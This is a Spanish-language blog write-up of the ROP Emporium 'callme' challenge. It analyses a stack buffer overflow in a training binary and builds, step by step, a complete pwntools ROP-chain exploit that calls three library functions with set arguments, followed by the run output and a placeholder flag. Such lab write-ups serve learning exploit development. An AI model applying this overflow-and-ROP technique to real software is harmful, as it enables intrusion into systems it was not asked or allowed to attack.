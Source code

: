 ```yaml
---
layout: post
title: ROP emporium callme - Llamando multiples funciones 
author: c4rta
date: 2023-04-24
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
categories: [Explotacion binaria]
tags: [ROP]
---
```

Para resolver este desafio usaremos ROP para llamar multiples funciones con multiples argumentos en el orden correcto
{:.lead}

## Analisis

![](/assets/img/callme/1.png)

No tiene canary, PIE, pero tiene NX, asi que no podemos ejecutar codigo en el stack.

Al ver la funcion main, lo unico interesante es el llamado a la funcion ```pwnme```

![](/assets/img/callme/2.png)

Una vez en esa funcion, podemos ver la vulnerabilidad:

![](/assets/img/callme/3.png)

Vemos que esta intentando escribir ```0x200``` bytes (512 en decimal) de la entrada estandar (stdin), dado un buffer, pero... Te voy a demostrar por que es vulnerable.

Cuando se hace el llamado a ```read()```, se hace con esta estructura:

```c
ssize_t read(int fd, void *buf, size_t count);
```

El primer argumento ```fd```, se le conoce como ```file decriptor```, que en palabras simples, se usa para crear una entrada para un archivo, esa entrada se identifica con un numero unico

El segundo argumento es un puntero a un buffer, y este buffer se esta creando aca:

![](/assets/img/callme/4.png)

Podemos ver que se esta inicializando un buffer de ```0x20``` bytes (32 en decimal) con el nombre de ```buf```

El tercer argumento es la cantidad de bytes que va a escribir en ese buffer, que son ```0x200```.

Entonces representando la funcion con los valores, quedaria asi:

```c
ssize_t read(0, 32, 512);
```

Esta tratando de escribir ```512``` bytes en ```32```, y como no se esta limitando la cantidad de bytes ingresados, ese buffer de ```32``` bytes va a petar, es la clasica vulnerabilidad buffer overflow, por que se esta sobrepasando la cantidad del buffer, que son 32.

Al mostrar todas las funciones en radare, tenemos que existe una funcion que se llama ```usefulFunction```:

![](/assets/img/callme/5.png)

Al mostrar el codigo de la funcion:

![](/assets/img/callme/6.png)

Nos damos cuenta que esta llamando a las funciones ```callme_three```, ```callme_two``` y ```callme_one```, y se estan llamando con los argumentos ```rdi```, ```rsi``` y ```rdx```.

Como curiosidad, si intentamos mostrar el codigo de una funcion de esas, no vamos a poder, sale algo como esto:

![](/assets/img/callme/7.png)

Y eso es por que las funciones ```callme_three```, ```callme_two``` y ```callme_one``` se encuetran en PLT que se esta cargando dinamicamente de ```libcallme.so```, entonces para poder verlas, tenemos que ejecutar el binario, me ire a gdb y pondre un breakpoint en el ```ret``` de la funcion main:

```
0x0000000000400897 <+80>:	ret
```

Y ahora si ya podemos ver su codigo, y lo mas relevante es que cuando se hace un llamado a ```callme_one```, los argumentos que se le pasan los compara con:

- 0xdeadbeefdeadbeef
- 0xcafebabecafebabe
- 0xd00df00dd00df00d

![](/assets/img/callme/8.png)

(en ```callme_three``` y ```callme_two``` es lo mismo)

Asi que ahora sabemos que debemos de llamar a ```callme_three```, ```callme_two``` y ```callme_one``` con los valores con los que se comparan los registros ```rdi```, ```rsi``` y ```rdx```

## Crafteando el exploit

Para saber el desplazamiento para llegar al RIP, podemos generar una cadena con ```pattern create 100``` y pasaresela al programa, despues podemos hacer ```pattern offset $rbp```:

![](/assets/img/callme/9.png)

Y al sumarle 8 bytes, y nos da 40

Asi va esta ahora:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

```

Como tenemos que escribir en rdi, rsi y rdx, debemos que buscar un gadget que nos permita hacer eso, usare ROPgadget con el comando:

```
ROPgadget --binary callme | grep 'pop rdi ; pop rsi ; pop rdx ; ret'
```

Y este nos funciona: ```0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret```

Asi va el exploit:

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)
```

Despues ocupamos las direcciones de callme_one y las demas, eso lo podemos hacer con el comando ```afl``` en radare:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)
```

Y por ultimo tenemos que mandar el payload en el orden correcto, primero el padding, luego el gadget, los valores de los argumentos y la funcion, asi queda el exploit completo

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)

args = argumento_1 + argumento_2 + argumento_3

payload = padding + gadget + args + callme_one
payload += gadget + args + callme_two
payload += gadget + args + callme_three

p.sendline(payload)
print(p.recvall().decode())
```

Y ya tenemos la flag

```
󰣇  c4rta /tmp/callme  python3 exploit.py
[+] Starting local process './callme': pid 15024
[+] Receiving all data: Done (172B)
[*] Process './callme' stopped with exit code 0 (pid 15024)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/callme/SUSwaifu.gif)